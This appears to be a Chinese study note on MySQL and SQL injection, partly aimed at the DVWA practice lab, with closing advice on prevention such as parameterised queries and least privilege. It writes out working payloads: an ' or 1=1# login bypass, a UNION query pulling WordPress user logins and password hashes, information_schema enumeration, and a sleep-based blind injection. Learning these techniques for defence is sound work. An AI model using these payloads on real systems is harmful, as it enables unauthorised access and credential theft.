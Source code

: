 select use();
select database();
select now();


大写 按tab可以补全

show create table users\G


字符串的查询需要加引号
select user,password from mysql.user where user = 'root';
若不加引号，代表查询的字段

数字是不可以作为字段的

#### 基于错误注入
输入单引号，用于判断是否语法报错进而得知是否可以注入



#### 基于or的注入 获取一个表
select user,password from mysql.user where user = 'root' or 1=1；
where后的条件为真


比如：在用户名输入框中输入:’ or 1=1#,密码随便输入，这时候的合成后的SQL查询语句为：
select * from users where username='' or 1=1#' and password=md5('')
　　语义分析：“#”在mysql中是注释符,--也可以用作注释，这样井号后面的内容将被mysql视为注释内容，这样就不会去执行了，换句话说，以下的两句sql语句等价：
select * from users where username='' or 1=1#' and password=md5('')
等价于
select * from users where username='' or 1=1



#### 基于union的注入 获取多个表
union前后字段数量一致

如果对union前的不关注则利用假的条件
例如：
select * from dvwa.users where 1=2 union select user_login,user_pwd,1,2 from wordpress.wp_users;
字段字段不一致，则可以不停的增减字段数尝试
如关注前面的数据则不使用where的假条件


#### information_schema (数据库字典)
查看数据库中所有的表
select * from information_schema.tables\G

查看去重后的所有数据库
select DISTINCT TABLE_SCHEMA from information_schema.tables;
等同于 showdatabases;

select TABLE_SCHEMA，TABLE_NAME from information_schema.tables WHERE TABLE_SCHEMA='HH';

select TABLE_SCHEMA，GROUP_CONCAT(TABLE_NAME) from information_schema.tables GROUP BY TABLE_SCHEMA;

通过前面获取的库与表获取表中的所有列
select COLOUMN_NAME from information_schema.columns WHERE TABLE_SCHEMA='database' and TABLE_NAME='table';


#### 基于时间的盲注
1' and sleep(5)--'


归纳一下，主要有以下几点：
　　1.永远不要信任用户的输入。对用户的输入进行校验，可以通过正则表达式，或限制长度；对单引号和双"-"进行转换等。
　　2.永远不要使用动态拼装sql，可以使用参数化的sql或者直接使用存储过程进行数据查询存取。
　　3.永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
　　4.不要把机密信息直接存放，加密或者hash掉密码和敏感的信息。
　　5.应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装
　　6.sql注入的检测方法一般采取辅助软件或网站平台来检测，软件一般采用sql注入检测工具jsky,网站平台就有亿思网站安全平台检测工具。


#### 参考文章
- [利用SQL注入漏洞登录后台](https://www.cnblogs.com/sdya/p/4568548.html)
